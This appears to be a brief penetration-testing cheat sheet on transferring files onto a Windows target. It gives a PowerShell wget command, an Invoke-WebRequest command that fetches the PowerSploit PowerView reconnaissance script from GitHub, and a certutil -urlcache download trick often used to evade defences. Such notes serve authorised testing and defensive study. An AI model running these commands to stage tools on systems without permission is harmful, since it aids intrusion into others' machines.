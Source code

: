 # Download Files into the Network

## Powershell

```powershell
wget https://example.com/script.ps1 -o script.ps1
# OR
Invoke-WebRequest -OutFile PowerView.ps1 -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```

## Certutil

```cmd
certutil.exe -urlcache -f http://example.com/script.ps1 script.ps1
```

